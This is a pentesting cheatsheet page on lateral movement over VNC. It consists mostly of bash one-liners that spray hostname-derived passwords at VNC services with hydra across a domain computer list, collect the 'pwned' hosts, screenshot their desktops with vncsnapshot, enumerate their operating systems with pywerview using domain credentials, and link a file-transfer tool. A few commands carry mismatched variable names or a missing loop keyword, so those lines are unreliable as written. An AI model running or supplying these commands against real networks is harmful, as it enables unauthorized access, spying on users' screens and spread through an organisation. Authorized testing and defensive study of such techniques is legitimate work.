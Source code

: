 ```yaml
---
layout: post
title: TA0008 Lateral Movement - T1021 VNC
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2023-02-07
permalink: /:categories/:title/
---
```

<!-- vscode-markdown-toc -->
* [RUN Password Spraying](#RUNPasswordSpraying)
* [EDIT hydra return & LIST pwned machines](#EDIThydrareturnLISTpwnedmachines)
* [VALIDATE LIST + SCREENSHOT of pwned desktops](#VALIDATELISTSCREENSHOTofpwneddesktops)
* [STATS of pwned machines](#STATSofpwnedmachines)
* [FILE TRANSFER](#FILETRANSFER)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='RUNPasswordSpraying'></a>RUN Password Spraying

**Case 1** : vnc_pwd == $ztarg_computer_name 
```bash
# // terminator || tmux / vsplit panel 1 / monitor progression
# // terminator || tmux / vsplit panel 1 / monitor progression / tail 
tail -f pt_XXX_hydra_vnc_output.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / run / pwd spraying over vnc using hydra /
while read ztarg_computer_fqdn; do vnc_pwd=$(echo $ztarg_computer_name | cut -d"." -f1 | tr '[:upper:]' '[:lower:]'); hydra  -p $vnc_pwd vnc://$ztarget_computer_fqdn -w 2/0 -t 4 >> pt_XXX_hydra_vnc_output.txt; done < pt_XXX_getnetcomputers_OU_XXX_all.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / get success conns / 
grep -c successfully pt_XXX_hydra_vnc_output.txt
grep -c "^\[5900\]" pt_XXX_hydra_vnc_output.txt
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / check last $ztarg_computer_name displayed by 'vsplit panel 1 / tail' /
grep -n  $ztarg_computername pt_XXX_getnetcomputers_OU_XXX_all.txt.txt
```

## <a name='EDIThydrareturnLISTpwnedmachines'></a>EDIT hydra return & LIST pwned machines 
```bash
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / return / format output & list zpwned_computer_name
grep "^\[5900\]" pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
grep "^\[5900\]" -A 2 pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
```

## <a name='VALIDATELISTSCREENSHOTofpwneddesktops'></a>VALIDATE LIST + SCREENSHOT of pwned desktops
```bash
while read ztarg_computer_fqdn; do export vnc_pwd=$(echo $ztarg_computer_fqdn | cut -d"." -f1 | tr '[:upper:]' '[:lower:]');   echo $vnc_pwd | vncpasswd -f > ./vnc_pwd.txt; echo -n $ztarg_computer_fqdn:; cat vnc_pwd.txt; vncsnapshot -passwd ./vnc_pwd.txt $ztarg_computer_fqdn pt_XXX_hydra_vnc_$ztarg_computer_fqdn.png >> pt_XXX_vncsnapshot_output.txt; done < pt_XXX_hydra_vnc_pwned.txt
```

## <a name='STATSofpwnedmachines'></a>STATS of pwned machines
```bash
# get the cn computer (1 line) and its OS (1 line) 
while read ztarg_computer_fqdn; python pywerview.py get-netcomputer --computername $ztarg_computer_fqdn -w $zdom_fqdn -u $ztarg_user_name -p XXX --dc-ip $zdom_dc_ip --attributes cn operatingSystem >> pt_XXX_getcomputer_XXX_os.txt; done < pt_XXX_hydra_vnc_pwned.txt

# format the result returned to CSV
i=0; while read line; do i=$(($i+1)); if [[ $i == 1 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' | tr '\n' ',' >> pt_XXX_getnetcomputer_XXX_os.csv ; elif [[ $i == 2 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' >> pt_XXX_getnetcomputer_XXX_os.csv; i=0; fi; done < pt_XXX_getcomputer_XXX_os.txt
```

Run the playbook [pen_enum_computers_os_piechart](https://github.com/jomivz/jomivz.github.io/playbook/pen_enum_computers_os_piechart.ipynb) to generate the chart pie per operating system.

![computers per OS](/assets/images/playbook_piechart_computers_per_os.png)

## <a name='FILETRANSFER'></a>FILE TRANSFER

Tools to transfer files via VNC (works on Windows 10 only):

* [Invoke-Transfer](https://github.com/JoelGMSec/Invoke-Transfer)